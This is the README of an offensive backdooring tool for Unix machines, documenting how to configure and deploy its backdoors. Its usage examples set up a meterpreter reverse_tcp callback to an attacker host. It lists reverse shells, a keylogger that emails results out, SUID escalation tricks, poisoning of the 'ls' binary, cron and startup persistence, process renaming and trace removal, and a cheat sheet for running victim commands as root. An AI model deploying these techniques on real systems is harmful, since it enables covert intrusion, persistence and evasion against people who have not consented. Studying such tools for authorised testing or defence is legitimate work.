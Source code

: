 # backdoorme [![Build Status](https://travis-ci.org/Kkevsterrr/backdoorme.png)](https://travis-ci.org/Kkevsterrr/backdoorme)

 Backdoorme is a powerful utility capable of backdooring Unix machines with a slew of backdoors.  Backdoorme uses a familiar metasploit interface with tremendous extensibility. 
 
 Backdoorme relies on having an existing SSH connection or credentials to the victim, through which it will transfer and deploy any backdoors.  In the future, this reliance will be removed as the tool is expanded. 
 To set up SSH, please see here: https://help.ubuntu.com/community/SSH/OpenSSH/Configuring
 
 Please only use Backdoorme with explicit permission - please don't hack without asking.  
## Usage
Backdoorme comes with a number of built-in backdoors, modules, and auxiliary modules.  Backdoors are specific components to create and deploy a specific backdoor, such as a netcat backdoor or msfvenom backdoor.  Modules can be applied to any backdoor, and are used to make backdoors more potent, stealthy, or more readily tripped. Auxiliaries are useful operations that could be performed to help persistence.

To start backdoorme, first ensure that you have the required dependencies. 
```
$ python dependencies.py
```
Launching backdoorme:
```
$ python master.py
   ___           __      __              __  ___
  / _ )___ _____/ /_____/ /__  ___  ____/  |/  /__
 / _  / _ `/ __/  '_/ _  / _ \/ _ \/ __/ /|_/ / -_)
/____/\_,_/\__/_/\_\\_,_/\___/\___/_/ /_/  /_/\__/
Welcome to BackdoorMe, a powerful backdooring utility. Type "help" to see the list of available commands.
Type "addtarget" to set a target, and "open" to open an SSH connection to that target.
Using local IP of 10.1.0.1.
>>
```
To add a target:
``` 
>> addtarget
Target Hostname: 10.1.0.2
Username: victim
Password: password123
 + Target 1 Set!
>>
```
### Backdoors

To use a backdoor, simply run the "use" keyword. 
``` 
>> use shell/metasploit
 + Using current target 1.
 + Using Metasploit backdoor...
(msf) >>
```
From there, you can set options pertinent to the backdoor.  Run either "show options" or "help" to see a list of parameters that can be configured.  To set an option, simply use the "set" keyword. 
```
(msf) >> show options
Backdoor options:

Option		Value		Description		Required
------		-----		-----------		--------
name		initd		name of the backdoor		False
format		elf		format to write the backdoor to		True
lhost		10.1.0.1		local IP to connect back to		True
encoder		none		encoder to use for the backdoor		False
lport		4444		local port to connect back on		True
payload		linux/x86/meterpreter/reverse_tcp		payload to deploy in backdoor		True
(msf) >> set name apache
 + name => apache
(msf) >> show options
Backdoor options:

Option		Value		Description		Required
------		-----		-----------		--------
name		apache		name of the backdoor		False
...
```
As in metasploit, backdoors are organized by category. 
- Auxiliary
  - **keylogger** - Adds a keylogger to the system and gives the option to email results back to you.
  - **simplehttp** - installs python's SimpleHTTP server on the client.
  - **user** - adds a new user to the target.
  - **web** - installs an Apache Server on the client.
- Escalation
  - **setuid** - the SetUID backdoor works by setting the setuid bit on a binary while the user has root acccess, so that when that binary is later run by a user without root access, the binary is executed with root access. By default, this backdoor flips the setuid bit on nano, so that if root access is ever lost, the attacker can SSH back in as an unpriviledged user and still be able to run nano (or any chosen binary) as root. ('nano /etc/shadow'). Note that root access is initially required to deploy this escalation backdoor. 
   - **shell** - the shell backdoor is a priviledge escalation backdoor, similar to (but more specific than) it's SetUID escalation brother. It duplicates the bash shell to a hidden binary, and sets the SUID bit.  Note that root access is initially required to deploy this escalation backdoor. To use, while SSHed in as an unpriviledged user, simply run ".bash -p", and you will have root access.
- Shell
  - **bash** - uses a simple bash script to connect to a specific ip and port combination and pipe the output into bash.
  - **bash2** - a slightly different (and more reliable) version of the above bash backdoor which does not prompt for the password on the client-side.
  - **metasploit** - employs msfvenom to create a reverse_tcp binary on the target, then runs the binary to connect to a meterpreter shell.
  - **netcat** - uses netcat to pipe standard input and output to /bin/sh, giving the user an interactive shell.
  - **netcat_traditional** - utilizes netcat-traditional's -e option to create a reverse shell.
  - **perl** - a script written in perl which redirects output to bash, and renames the process to look less conspicuous.
  - **php** - runs a php backdoor which sends output to bash. It does not automatically install a web server, but instead uses the web module
  - **pupy** - uses n1nj4sec's Pupy backdoor, found at https://github.com/n1nj4sec/pupy.
  - **python** - uses a short python script to perform commands and send output back to the user.
  - **web** - ships a web server to the target, then uploads msfvenom's php reverse_tcp backdoor and connects to the host. Although this is also a php backdoor, it is not the same backdoor as the above php backdoor.
- Access
  - **remove_ssh** - removes the ssh server on the client. Often good to use at the end of a backdoorme session to remove all traces.
  - **ssh_key** - creates RSA key and copies to target for a passwordless ssh connection.
  - **ssh_port** - Adds a new port for ssh.
- Windows
  - **windows** - Uses msfvenom to create a windows backdoor.
  
### Modules
Every backdoor has the ability to have additional modules applied to it to make the backdoor more potent. To add a module, simply use the "add" keyword. 
```
(msf) >> add poison
 + Poison module added
```
Each module has additional parameters that can be customized, and if "help" is rerun, you can see or set any additional options. 
```
(msf) >> help
...
Poison module options:

Option		Value		Description		Required
------		-----		-----------		--------
name	    ls		  name of command to poison		False
location /bin		where to put poisoned files into		False
```
Currently enabled modules include:
 - Poison
  - Performs bin poisoning on the target computer - it compiles an executable to call a system utility and an existing backdoor.
  - For example, if the bin poisoning module is triggered with "ls", it would would compile and move a binary called "ls" that would run both an existing backdoor and the original "ls", thereby tripping a user to run an existing backdoor more frequently. 
 - Cron
  * Adds an existing backdoor to the root user's crontab to run with a given frequency.  
 - Web
  - Sets up a web server and places a web page which triggers the backdoor.
  - Simply visit the site with your listener open and the backdoor will begin.
 - User
  - Adds a new user to the target.
 - Startup
  - Allows for backdoors to be spawned with the bashrc and init files.
 - Whitelist
  - Whitelists an IP so that only that IP can connect to the backdoor.

### Targets
Backdoorme supports multiple different targets concurrently, organized by number when entered. The core maintains one "current" target, to which any new backdoors will default. To switch targets manually, simply add the target number after the command: "use metasploit 2" will prepare the metasploit backdoor against the second target. Run "list" to see the list of current targets, whether a connection is open or closed, and what backdoors & modules are available. 

## Contributing
Backdoorme is still very much in its infancy! Feel free to contribute to the project - simply fork it, make your changes, and issue a pull request. Have an idea for a killer backdoor, or something we could improve? Make an issue and we'll add it ASAP! Please email us at backdoormegit@gmail.com with any questions.

If you wish to add your own backdoor, follow the directions given in the backdoorme/backdoors/template.py file.

If you wish to add your own module, follow the directions given in the backdoorme/modules/template.py file.

Cheat Sheet for developers:
- Execute command on system: self.core.curtarget.ssh.exec_command("command")
- Retrieve an option: self.get_value("option")
- Execute command on system with root: self.target.ssh.exec_command("echo " + self.core.curtarget.pword + " | sudo -S command") 
